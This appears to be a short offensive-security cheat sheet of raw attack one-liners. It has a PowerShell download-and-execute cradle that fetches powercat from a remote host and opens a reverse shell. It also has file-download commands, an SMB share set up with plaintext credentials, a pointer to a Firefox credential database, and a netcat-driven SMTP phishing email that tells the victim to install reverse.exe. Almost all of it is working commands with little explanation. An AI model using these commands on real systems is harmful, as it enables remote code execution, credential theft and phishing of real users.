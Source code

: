 download a file and execute from memory with powercat
`IEX(New-Object System.Net.Webclient).DownloadString('http://10.1.1.1:8000/powercat.ps1');powercat -c 10.1.1.1 -p 8001 -e powershell.exe`

#### PowerShell Invoke-WebRequest
`powershell Invoke-WebRequest -url http://10.10.10.10:9000/file.txt`

shorthand
`powershell IWR -url http://10.10.10.10:9000/file.txt -OutFile C:\\Windows\\temp\\file.txt`


### smb
localhost
`sudo ./smbserver.py tools $(pwd) -smb2support -user dials -password password1

``` 
$pass = convertto-securestring 'password1' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('dials', $pass)
New-PSDrive -Name dials -PSProvider FileSystem -Credential $cred -Root \\LOCAL_KALI_IP\tools
cd dials:
```

### credentials
```
C:\Users\clara\AppData\Roaming\Mozilla\Firefox\Profiles\ljftf853.default-release\key4.db
```
sharpweb?
python cracker?



# smtp email

### email w/ smtp > netcat

smtp file contents:
```
HELO VICTIM
MAIL FROM: <rmurray@victim>
RCPT TO: <tharper@victim>
DATA
Subject: This is an urgent patch please install!

Please install this urgent patch

http://192.168.119.243:9002/reverse.exe

Sincerly, Ross

.
QUIT
```

`cat "smtp" |while read L; do sleep "1"; echo "$L"; done | "nc" -C -v "192.168.243.55" "25"`
